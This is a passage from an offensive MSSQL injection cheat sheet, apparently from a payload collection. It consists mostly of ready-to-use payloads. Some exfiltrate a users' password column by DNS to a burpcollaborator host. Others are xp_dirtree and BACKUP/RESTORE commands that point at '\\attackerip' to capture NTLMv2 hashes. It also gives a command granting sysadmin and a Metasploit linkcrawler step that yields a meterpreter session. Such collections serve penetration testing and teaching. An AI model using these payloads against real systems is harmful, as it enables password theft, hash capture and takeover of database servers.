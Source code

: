 ## MSSQL Out of band

### MSSQL DNS exfiltration

Technique from https://twitter.com/ptswarm/status/1313476695295512578/photo/1

```powershell
# Permissions: Requires VIEW SERVER STATE permission on the server.
1 and exists(select * from fn_xe_file_target_read_file('C:\*.xel','\\'%2b(select pass from users where id=1)%2b'.xxxx.burpcollaborator.net\1.xem',null,null))

# Permissions: Requires the CONTROL SERVER permission.
1 (select 1 where exists(select * from fn_get_audit_file('\\'%2b(select pass from users where id=1)%2b'.xxxx.burpcollaborator.net\',default,default)))
1 and exists(select * from fn_trace_gettable('\\'%2b(select pass from users where id=1)%2b'.xxxx.burpcollaborator.net\1.trc',default))
```


### MSSQL UNC Path

MSSQL supports stacked queries so we can create a variable pointing to our IP address then use the `xp_dirtree` function to list the files in our SMB share and grab the NTLMv2 hash.

```sql
1'; use master; exec xp_dirtree '\\10.10.15.XX\SHARE';-- 
```

```sql
xp_dirtree '\\attackerip\file'
xp_fileexist '\\attackerip\file'
BACKUP LOG [TESTING] TO DISK = '\\attackerip\file'
BACKUP DATABASE [TESTING] TO DISK = '\\attackeri\file'
RESTORE LOG [TESTING] FROM DISK = '\\attackerip\file'
RESTORE DATABASE [TESTING] FROM DISK = '\\attackerip\file'
RESTORE HEADERONLY FROM DISK = '\\attackerip\file'
RESTORE FILELISTONLY FROM DISK = '\\attackerip\file'
RESTORE LABELONLY FROM DISK = '\\attackerip\file'
RESTORE REWINDONLY FROM DISK = '\\attackerip\file'
RESTORE VERIFYONLY FROM DISK = '\\attackerip\file'
```


## MSSQL Make user DBA (DB admin)

```sql
EXEC master.dbo.sp_addsrvrolemember 'user', 'sysadmin;
```

## MSSQL Trusted Links

> The links between databases work even across forest trusts.

```powershell
msf> use exploit/windows/mssql/mssql_linkcrawler
[msf> set DEPLOY true] #Set DEPLOY to true if you want to abuse the privileges to obtain a meterpreter sessio
```
